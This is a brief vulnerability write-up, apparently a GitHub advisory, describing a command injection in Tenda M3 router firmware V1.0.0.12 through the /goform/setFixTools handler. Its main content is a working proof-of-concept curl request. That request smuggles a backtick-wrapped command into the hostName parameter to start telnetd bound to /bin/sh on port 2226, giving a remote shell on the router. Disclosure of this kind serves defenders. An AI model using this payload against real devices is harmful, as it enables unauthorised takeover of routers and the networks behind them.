



# Tenda M3 Command Injection

**Vender** ：Tenda

**Firmware version**:V1.0.0.12(4856)

**Exploit Author**: GD@hillstone

**Vendor Homepage**: https://www.tenda.com.cn/


## POC

An issue was discovered in Tenda M3 1.10 V1.0.0.12(4856) devices. An HTTP request parameter is used in command string construction within the handler function of the /goform/setFixTools route. This could lead to Command Injection via Shell Metacharacters.






When we send packets, the router will be shell

```
curl -i -X GET "http://192.168.10.1//goform/setFixTools?networkTool=1&hostName=\`telnetd%20-p%202226%20-l%20/bin/sh\`&packageNum=4&packageSize=3" -b "Cookie: user=admin; "
```




